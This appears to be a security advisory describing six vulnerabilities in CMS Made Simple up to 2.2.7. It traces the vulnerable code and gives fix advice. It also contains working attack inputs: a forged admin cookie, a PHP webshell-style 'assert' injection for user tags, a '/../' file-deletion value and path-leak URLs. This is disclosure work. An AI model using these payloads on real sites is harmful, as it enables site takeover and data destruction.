 ###Cms Made Simple Multiple Vulnerability

####General description：
**[1]CMS Made Simple (CMSMS) <=2.2.6 contains admin password reset vulnerability**
**[2]CMS Made Simple (CMSMS) <=2.2.6 contains PHP object injection**
**[3]CMS Made Simple (CMSMS) <=2.2.6 contains the privilege escalation vulnerability from ordinary user to admin user**
**[4]CMS Made Simple (CMSMS) <=2.2.7 contains arbitrary code execution vulnerability in the admin dashboard**
**[5]CMS Made Simple (CMSMS) <=2.2.7 contains any file deletion vulnerability in the admin dashboard**
**[6]CMS Made Simple (CMSMS) <=2.2.7 contains web Site physical path leakage Vulnerability**

_ _ _

**Environment: **apache/php 5.4.45/cms made simple 2.2.6
**Explanation:**
the latest version is **2.2.7**, but there is a problem in the source code, so this version of cms made simple can not work correctly after installation!

In the version 2.2.7 of \lib\classes\internal\class.LoginOperations.php
```
$private_data['hash'] = password_hash( $user->id.$user->password.__FILE__, PASSWORD_BCRYPT );
```
But the function password_hash is not defined

enter the account password when logging in the admin dashboard will show this：
![1.png](.\1.png)
and you can not find the password_hash function
![2.png](.\2.png)
**so this 2.2.7 newest version is equal to the unavailable version!**
_ _ _
**[1]Admin password reset vulnerability (<=2.2.6)**
at /admin/login.php
![3.png](.\3.png)
line 129 calls the find_recovery_user function, passing in the ```changepwhash```value
if no null is returned, the password reset process will be entered

in the find_recovery_user function
![4.png](.\4.png)
on line 78, the password reset hash of all admin dashboard users is obtained directly from the database, and then compared with the value of ```changepwhash``` submitted by the user. If they are equal, the user is returned, otherwise null is returned.

the problem here is that the hash of the password reset by the admin dashboard user is fixed, and the hash check is a weak type comparison, so there is the possibility of a password reset.

for example, the admin user's password reset hash starts with 0e.
![5.png](.\5.png)
![6.png](.\6.png)
you will see ```0e123456 == 0e445678```
but ```0e123456 !== 0e445678```

To sum up: because the checked hash is not generated randomly everytime, it is always fixed, and because the hash check uses ==, so the hacker does not need to initiate the mailbox to obtain the hash to perform admin dashboard user password reset (hash starts with 0e)

vulnerability fix recommendations:
use ```===``` instead of ```==```, hash should be dynamically generated

**[2] PHP object injection (<=2.2.6)**
in the _get_data function of \lib\classes\internal\class.LoginOperations.php
![7.png](.\7.png)
line 117 gets the value of ```$_COOKIE[$this->_loginkey]``` by deserialization
this function will be called when logging in the admin dashboard
then the value of ```$this->_loginkey``` is fixed, so the next step is to construct the deserialization exploit chain.

there is a __destruct function in class Smarty_Internal_Template of \lib\smarty\sysplugins\smarty_internal_template.php
![8.png](.\8.png)
line 689 calls the releaseLock function of \lib\smarty\sysplugins\smarty_internal_cacheresource_file.php
in this function
![9.png](.\9.png)
line 273 calls the unlink function to delete lock_id, so control lock_id to delete any file

create a new file test.txt in the website root directory
![10.png](.\10.png)
![11.png](.\11.png)
first specify the file to delete in poc.php
then run poc.php to write the returned contents to unser.py line 55
![12.png](.\12.png)
then execute python unser.py
![13.png](.\13.png)
the test.txt file has been deleted after execution

vulnerability fix recommendations:
use the json_decode function instead of the unserialize function


**[3] The privilege escalation from ordinary user to admin user (<=2.2.6)**
call the check_login function in line 35 of /admin/index.php
![14.png](.\14.png)
in \lib\page.functions.php, line 88 calls the get_userid function
![15.png](.\15.png)

in \lib\page.functions.php, line 43 calls the get_effective_uid function
![16.png](.\16.png)

in \lib\classes\internal\class.LoginOperations.php, line 183 calls the _get_data function
![17.png](.\17.png)
on line 182, if the data exists and both ```eff_uid``` and ```eff_uid``` exist in the data, the value of ```eff_uid``` is returned (**point of problem 1**).

in the _get_data function of \lib\classes\internal\class.LoginOperations.php
![18.png](.\18.png)

line 106 gets data from ```$_COOKIE[$this->_loginkey]```

```$this->_loginkey```  comes from  ```md5(__FILE__.__CLASS__.CMS_VERSION)```
the admin dashboard user can get the value in the cookie after logging in, and can also guess it directly
```__FILE__```  -->```” absolute path”\lib\classes\internal\class.LoginOperations.php```(**refer to Appendix 1**)
```__CLASS__```  -->```CMSMS\LoginOperations```(fixed value)
```CMS_VERSION```  -->```2.2.6```(fixed value,or 2.2.5/2.2.4/...)

![19.png](.\19.png)
on line 115, anti-counterfeiting verification is performed on the data, but there is a problem with the verification method(**point of problem 2**) (**refer to Appendix 2**).

line 117 gets the value of ```$_COOKIE[$this->_loginkey]``` by deserialization

![20.png](.\20.png)
on line 125, the _check_passhash function is called to verify the uid and cksum values in the data

in the _check_passhash function
![21.png](.\21.png)
line 56 obtains the user's corresponding password through uid, merges some other parameters to serialize, and then sha1 encrypts it. finally, the cksum value submitted by the user is checked,if not equal, FALSE is returned, and the verification fails.

To sum up:
the key to exploiting the vulnerability is to falsify the ```eff_uid``` value in ```$_COOKIE[$this->_loginkey]``` to 1 (the admin user's id), after which the cksum value is validated, and the data's anti-forgery check is bypassed!

Exploits: I wrote a vulnerability verification script.
simply fill in the relevant parameters and you can let the admin dashboard ordinary users upgrade to the admin user.

python poc.py
![22.png](.\22.png)
open /admin/index.php with the browser corresponding to user_agent in poc and jump to /admin/login.php
clear all cookies
then add the cookies generated  by poc

-->```733200e27b06fbee203116934285f533```
eb3b2b96e832bf7bf56a80f18a512857c5286473::YTo1OntzOjg6InVzZXJuYW1lIjtzOjU6ImFkbWluIjtzOjc6ImVmZl91aWQiO2k6MTtzOjEyOiJlZmZfdXNlcm5hbWUiO047czozOiJ1aWQiO2k6MjtzOjU6ImNrc3VtIjtzOjQwOiI4MzZjOGVhZDIwM2EyMTgwY2ExYmNlMjczOGU5NzBlODkzMjBhOTEyIjt9

-->```_sk_```
aabbcc

![23.png](.\23.png)
![24.png](.\24.png)
then request /admin/index.php
![25.png](.\25.png)
successfully become a admin user!

Vulnerability fix recommendations:
use a strong data encryption method.

**[4] Arbitrary code execution in the admin dashboard (<=2.2.7)**
in \admin\editusertag.php
![26.png](.\26.png)
line 93, execute the command directly using the eval function

it was originally intended to place ```$code``` in testfunctionXXX(){}, but it was possible to jump out of the testfunctionXXX to execute arbitrary code because of lax filtering.

```$code``` comes from ```$code = $record['code'];```
and ```$record['code'] = trim($_POST['code']);```
![27.png](.\27.png)
lines 80-81 limit the <?php,?> characters
![28.png](.\28.png)
![29.png](.\29.png)
line 105 stores ```$code``` and calls SetUserTag function to write to the database

in the function CallUserTag of \lib\classes\class.usertagoperations.inc.php
![30.png](.\30.png)
line 285 calls call_user_func_array to execute the stored function code

go to /admin/listusertags.php?_sk_=2e70dc0836332261d5c
select a tag to edit and add as follows
![31.png](.\31.png)```
}
if(isset($_GET['action'])) @assert($_GET['action']);/*```

then visit /index.php?action=phpinfo()
the variable ```action``` is the command to be executed
![32.png](.\32.png)

Vulnerability fix recommendations:
filtering the data submitted by the user


**[5] Any file deletion in the admin dashboard (<=2.2.7)**
in \modules\FilePicker\action.ajax_cmd.php
![33.png](.\33.png)
line 15 gets the value of the ```cwd``` variable via post and removes the <> character in it

![34.png](.\34.png)
line 28 calls the is_relative function from \modules\FilePicker\lib\class.PathAssistant.php
![35.png](.\35.png)
line 65 calls the is_relative_to function
in this function, the startswith function is called to compare the address from the value of the ```cwd``` variable and the absolute address of the default.

![36.png](.\36.png)
![37.png](.\37.png)
line 13 gets the value of the ```cmd``` variable via post and filters it
line 14 gets the value of the ```val``` variable via post

![38.png](.\38.png)
line 40 When the ```cmd``` value is ‘del’, the delete operation is called

To sum up: the default directory is /uploads/. to delete files from other directories, you can use /../ in the variable val.

![39.png](.\39.png)
-->
![40.png](.\40.png)
-->
![41.png](.\41.png)
find a deletable file, click x and use burp to capture data

-->change the value of ```val``` to ```/../$directory/$file```
![42.png](.\42.png)
/lib/test.php(a file created for testing) will be deleted

once the important file is deleted, the website can not run properly

Vulnerability fix recommendations:
filtering the data submitted by the user


_ _ _

####Appendix 1
**[6] Web Site physical path leakage Vulnerability**

the following links can get the absolute path to the site
/index.php?page=-100ssssss
![43.png](.\43.png)

/index.php?mact=Search%2Ccntnt01%2Cdosearch%2C0&meb92freturnid=31&meb92fsearchinput=aaa&submit=Submit
![44.png](.\44.png)

/admin/header.php
![45.png](.\45.png)

/admin/footer.php
/lib/tasks/class.ClearCache.task.php
/lib/tasks/class.CmsSecurityCheck.task.php
......

####Appendix 2
$tmp = [ md5(__FILE__),\cms_utils::get_real_ip(),$_SERVER['HTTP_USER_AGENT'].CMS_VERSION ];

$salt = sha1(serialize($tmp));

check:sha1( $parts[1].$salt ) != $parts[0]
that is to let sha1( $parts[1].$salt ) == $parts[0]

the __FILE__ in md5(__FILE__) can be obtained from Appendix 1, so it is a fixed value

\cms_utils::get_real_ip() gets the client ip, which is also a fixed value

$_SERVER['HTTP_USER_AGENT'] gets the client browser user_agent, which is also a fixed value

CMS_VERSION is also a fixed value

therefore, the data to be verified against data falsification is a fixed value and can be obtained directly, so this verification can be bypassed.